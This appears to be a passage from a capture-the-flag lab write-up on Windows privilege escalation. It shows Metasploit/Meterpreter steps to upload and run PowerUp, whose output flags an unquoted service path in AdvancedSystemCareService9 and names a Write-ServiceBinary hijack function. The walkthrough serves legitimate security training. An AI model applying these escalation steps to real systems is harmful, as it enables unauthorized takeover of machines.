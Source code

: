 `b04763b6fcf51fcd7c13abc7db4fd365`

## Task 3 Privilege Escalation

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). Now you can use the upload command in Metasploit to upload the script.

![](https://i.imgur.com/Zqipdba.png)

To execute this using Meterpreter, I will type **load powershell** into meterpreter. Then I will enter powershell by entering **powershell_shell**:

![](https://i.imgur.com/1IEi13Y.png)

`No answer needed`

Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

```
PS > .\PowerUp.ps1
PS > Invoke-AllCHecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
```